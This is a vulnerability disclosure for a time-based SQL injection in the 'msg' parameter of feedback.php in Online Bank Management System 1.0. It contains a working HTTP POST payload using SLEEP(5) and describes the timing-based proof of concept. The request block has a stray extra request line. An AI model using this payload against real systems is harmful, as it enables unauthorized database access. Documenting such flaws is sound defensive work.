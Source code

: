 # Online Bank Management System - feedback.php 'msg' Unauthorized SQL inject

#### Exploit Title: Online Bank Management System - feedback.php 'msg' Unauthorized SQL inject

#### Vendor Homepage: https://www.sourcecodester.com/php/15373/online-banking-management-system-php-free-source-code.html

#### Software Link:https://www.sourcecodester.com/download-code?nid=15373&title=Online+Bank+Management+System+in+PHP+Free+Source+Code

#### Version: Online Bank Management System 1.0

#### Tested on: phpstudy 2018

#### Description

The reason for the SQL injection vulnerability is that the website application does not verify the validity of the data submitted by the user to the server (type, length, business parameter validity, etc.), and does not effectively filter the data input by the user with special characters , so that the user's input is directly brought into the database for execution, which exceeds the expected result of the original design of the SQL statement, resulting in a SQL injection vulnerability.Online Bank Management System does not filter the content correctly at the "feedback.php msg" parameter, resulting in the generation of SQL injection.

#### Analysis
feedback.php does not filter the incoming data, causing malicious SQL commands to be directly passed into, and eventually lead to SQL injection

<img width="1152" height="529" alt="image" src="https://github.com/user-attachments/assets/a27f4c86-40e6-4078-88e0-036e16642c0b" />


#### Payload used:

```POST /login.php HTTP/1.1
POST /SourceCodesterBank/feedback.php HTTP/1.1
Host: 127.0.0.1
Content-Type: application/x-www-form-urlencoded
Content-Length: 61

msg=test', (SELECT 1 FROM (SELECT(SLEEP(5)))a)) -- &send=Send
```

#### Proof of Concept

First, we use delay injection sleep(0) to see that the loading time of the page is 4 seconds.

<img width="1247" height="726" alt="image" src="https://github.com/user-attachments/assets/00a34a4a-92f9-4e00-9d9e-1662b4b1e584" />

Then we delay sleep(5) for another 5 seconds, and the page loading becomes 9 seconds, which successfully proves that sleep(5) has been executed successfully.

<img width="1241" height="722" alt="image" src="https://github.com/user-attachments/assets/cd793e5a-90d1-48c8-a9be-3adf788bcf21" />

